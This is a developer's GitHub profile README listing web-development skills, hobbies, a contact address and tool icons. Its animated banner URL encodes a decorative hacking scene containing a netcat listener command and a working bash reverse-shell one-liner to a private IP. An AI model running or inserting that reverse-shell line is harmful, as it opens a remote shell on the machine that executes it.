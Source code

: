 <h1>Hi I'm <i><a href="https://github.com/rXolboyev" rel="nofollow"><b>Xolboyev</b></i></a>, And I'm...</h1>

<img align="right" width="330" src="https://media.giphy.com/media/v1.Y2lkPWVjZjA1ZTQ3bDFoeTM2ZHY0YzY1aXZyeDVqeWlqMTUyZTlweHM0d2NqcHV5Z3VjZCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/ToMjGplujsIS6kHzUPK/giphy.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2700&pause=100&color=0034ff&multiline=true&width=500&height=350&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXolboyev%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.44.38%2F4444+0%3E%261;Xolboyev%40profile%3A~%24+.%2Fexploit.py;+;...................PwN3d!......................................;+Hello+Stranger!+Xolboyev+is+serving+here...;...............................................................;++;%24+whoami;Xolboyev" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=rXolboyev&label=Profile%20views&color=0e75b6&style=flat" alt="xolboyev" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


```javascript
const data = {
    pronouns: ["He" | "Him"],
    codename: "xolboyev.",
    status: "still alive",
    doing: "Forging Web Realms...",
    hobbies: ["{Coding}", "{Music}", "{Speedcubing}", "{Gaming}"], // If that even matters lol
    code: ["{Python}", "{Javascript}", "{Typescript}", "{Bash}"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS", "Material UI"],
        },
    },
    contact: {
        email: "xolboyev@proton.me",
    },
};
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="neovim" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/neovim/neovim-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://devicon-website.vercel.app/api/tailwindcss/plain.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="26px" src="https://cdn.worldvectorlogo.com/logos/framer-motion.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fmedia.vlpt.us%2Fimages%2Fdhlee91%2Fpost%2F2825c6cc-2f27-4ee3-adc3-4f2fb2b6d1cb%2FLinux-Terminal-icon.png&f=1&nofb=1&ipt=90279d5891412b4d79fcb58b9e0ad9d9aa1312df26603bae36893fdf7195967e" />
<br>
<br>

